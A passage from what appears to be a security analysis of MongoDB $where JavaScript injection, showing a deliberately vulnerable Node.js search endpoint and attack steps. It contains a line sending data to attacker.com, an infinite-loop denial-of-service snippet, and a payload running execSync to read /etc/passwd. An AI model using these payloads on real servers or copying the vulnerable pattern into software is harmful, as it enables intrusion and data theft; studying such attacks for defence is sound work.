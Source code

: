     // Make network requests to exfiltrate data to an external server
    http = process.mainModule.require('http');
    http.get('http://attacker.com/exfiltrate?data=' + JSON.stringify(data));
    ```

*   **Denial of Service (DoS):** Attackers can execute resource-intensive JavaScript code to overload the MongoDB server, leading to denial of service.

    ```javascript
    // Infinite loop to consume resources
    while(true) {}
    ```

*   **Lateral Movement:** If the MongoDB server has network access to other systems within the internal network, attackers can use the compromised server as a pivot point for lateral movement to attack other systems.

#### 4.3. Realistic Attack Scenario: Compromised User Search Functionality

Consider a web application that uses MongoDB to store user profiles. The application has a search feature that allows users to search for other users by name.  The search functionality is implemented using a MongoDB query with the `$where` operator for flexible searching.

**Vulnerable Code (Simplified):**

```javascript
// Node.js backend code (vulnerable)
app.get('/search', async (req, res) => {
  const searchTerm = req.query.q; // User-provided search term
  try {
    const users = await db.collection('users').find({
      $where: `this.name.toLowerCase().includes('${searchTerm.toLowerCase()}')`
    }).toArray();
    res.json(users);
  } catch (error) {
    console.error("Search error:", error);
    res.status(500).send("Search failed");
  }
});
```

**Attack Steps:**

1.  **Attacker identifies the search functionality:** The attacker interacts with the web application and identifies the user search feature.
2.  **Attacker tests for NoSQL injection:** The attacker tries injecting special characters and operators into the search term to see if they can manipulate the MongoDB query. They might try inputs like `' or 1==1 --` or `' + '`.
3.  **Attacker discovers `$where` injection:** Through testing, the attacker realizes that the search term is being directly embedded into a `$where` clause.
4.  **Attacker crafts a JavaScript injection payload:** The attacker crafts a malicious JavaScript payload to execute a command on the server. For example:

    ```
    '; return process.mainModule.require('child_process').execSync('cat /etc/passwd').toString(); //
    ```
